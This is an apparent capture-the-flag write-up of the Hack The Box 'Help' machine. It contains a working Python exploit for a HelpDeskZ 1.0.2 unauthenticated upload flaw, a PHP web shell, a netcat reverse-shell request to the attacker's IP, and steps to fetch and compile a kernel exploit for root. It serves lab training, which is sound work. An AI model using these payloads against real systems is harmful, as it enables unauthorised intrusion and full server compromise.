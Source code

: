 ```yaml
---
title: Help
tags: linux
description: Write-up for Hack the Box - Help
---
```


![image](assets/79370689-1ddea400-7f21-11ea-9891-c8d29a592923.png)

## Overview
Help is an Ubuntu box running helpdesk software that was vulnerable to an unauthenticated arbitrary file upload. After getting some additional information from the application's github repo and tweaking the exploit I was able to get initial foothold as user 'help'. After running the linux-exploit-suggester-2 tool I was able to upload and compile a kernel exploit on the target to obtain a shell as root.

## Enumeration

**Software**

* Ubuntu 16.04.5 LTS
* Apache 2.4.18
* Node.js Express Framework
* Helpdeskz 1.0.2

**NMAP Scan**

```
nmap -vv -Pn -sT -A -p- 10.10.10.121 -oN /mnt/data/boxes/help/_full_tcp_nmap.txt
```

* 22/tcp - ssh
* 80/tcp - http
* 3000/tcp - http

**Gobuster**
```
gobuster dir -u http://10.10.10.121 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html -t 35
```

* /support
* /index.html
* /javascript

## Steps (user)

I started off by browsing to http://10.10.10.121 which showed the Apache2 Ubuntu Default Page. Moving on to the gobuster results, I browsed to http://10.10.10.121/support which showed a [Helpdeskz](https://www.helpdeskz.com/) page.

![image](assets/82090583-d84dfc00-96c3-11ea-8afd-55e3b9c88e06.png)

I ran a search against searchsploit for "helpdeskz" and there were two results. 

![image](assets/82107448-b8373080-96f5-11ea-85b7-38f72922ee10.png)

Since 41200 required authentication and I had yet to find any credentials, I went with 40300.

https://www.exploit-db.com/exploits/40300

The script works by getting current time from the webserver and generating filenames by taking the filename + current time and hashing it with md5 to creat the final filename. The script then checks to see if that file exists on the webserver. If response 200 is returned the url is printed to the screen and the script is stopped. I had to make a few tweaks to get it to work.

```python
import hashlib
import time
import sys
import requests
import datetime

print('Helpdeskz v1.0.2 - Unauthenticated shell upload exploit')

if len(sys.argv) < 3:
    print("Usage {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0]))
    sys.exit(1)

helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]


r = requests.get(helpdeskzBaseUrl)

#Gets the current time of the server to prevent timezone errors - DoctorEww
currentTime = int((datetime.datetime.strptime(r.headers['date'], '%a, %d %b %Y %H:%M:%S %Z') - datetime.datetime(1970,1,1)).total_seconds())

for x in range(0, 300):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext.encode('utf-8')).hexdigest()

    url = helpdeskzBaseUrl+md5hash+'.php'

    print("[*] Trying time offset: " + str(x))

    response = requests.head(url)

    if response.status_code == 200:
        print("[!] Found! => " + url)
        sys.exit(0)

print("[*] Sorry, I did not find anything")

```

The URL mentioned in the comments of the exploit was different than the URL on the target so I wanted to confirm the correct path before continuing. I did an internet search for helpdeskz application and found its github repo https://github.com/evolutionscript/HelpDeskZ-1.0

I found UPGRADING.txt which allowed me to pull that file up on the target box and confirm it was version 1.0.2.

![image](assets/82108398-24b52e00-96fc-11ea-991c-07d2bb68efdd.png)

I then reviewed the controllers/submit_ticket_controller.php file that was mentioned in the notes and found the section dealing with uploads

```
"UPLOAD_DIR".'tickets/'
```

![image](assets/82108481-a60cc080-96fc-11ea-9aa6-f0f7f5cf1e22.png)

I continued to look around and found that the includes/global.php defined the UPLOAD_DIR variable:

```
define('UPLOAD_DIR', ROOTPATH . 'uploads/');
```

![image](assets/82108491-c3418f00-96fc-11ea-876b-1972a36080d5.png)

Putting everything together the full path is **http://10.10.10.121/uploads/tickets**

Having everything I needed to run the script I created a basic web shell and saved it to cmd.php
```
echo '<?php echo shell_exec($_GET["cmd"]); ?>' cmd.php
```
I clicked "Submit a Ticket", filled out the required field, attached the cmd.php and clicked submit.

![image](assets/82101138-a9db1b80-96d9-11ea-9179-58e07eee17fc.png)

I ran the script providing the url and cmd.php as parameters. The script was able to determine the name of the file as **993824593a0e0385f451288588801156.php**

```
python3 ./40300.py http://10.10.10.121/support/uploads/tickets/ cmd.php
```

![image](assets/82107927-39dc8d80-96f9-11ea-84a6-7e6d313238e0.png)

I browsed to http://10.10.10.121/uploads/tickets/993824593a0e0385f451288588801156.php and added ?cmd=lsb_release -a to confirm I was able to run commands and see the output.

```
http://10.10.10.121/support/uploads/tickets/993824593a0e0385f451288588801156.php?cmd=lsb_release%20-a
```

![image](assets/82101259-0e967600-96da-11ea-9126-d18f2c84d0df.png)


I opened burp and sent the request to repeater so I could modify the request. I modified the request and url encoded it, and after setting up a netcat listner (nc -lvnp 4200), I hit send.

```
GET /support/uploads/tickets/993824593a0e0385f451288588801156.php?cmd=rm+/tmp/z%3bmkfifo+/tmp/z%3bcat+/tmp/z|/bin/sh+-i+2>%261|nc+10.10.14.24+4200+>/tmp/z+HTTP/1.1
```
![image](assets/82107073-fb43d480-96f2-11ea-896f-57c9f59dcde9.png)


## Steps (root/system)

I didn't find much enumerating help's home folder, there was a password in the .bash_history file but it didn't appear to be used anywhere on the box. LinEnum didn't turn up anything out of the ordinary. I downloaded [linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2) and it showed a few kernel exploits for version 4.4.0.

![image](assets/82107334-d3ee0700-96f4-11ea-95ee-c96a1e0f7100.png)

I ran searchsploit -m to make a copy of the exploit from searchsploit

```
searchsploit -m 45010
```

I started up a python http server on my box and copied the exploit to the target box

```
python3 -m http.server 80
```

```
wget http://10.10.14.24/45010.c
```

GCC was installed so I was able to compile it right on the target
```
gcc 45010.c -o 45010
```

After running it I received a root shell

![image](assets/82107377-229ba100-96f5-11ea-87d7-fba62581838c.png)
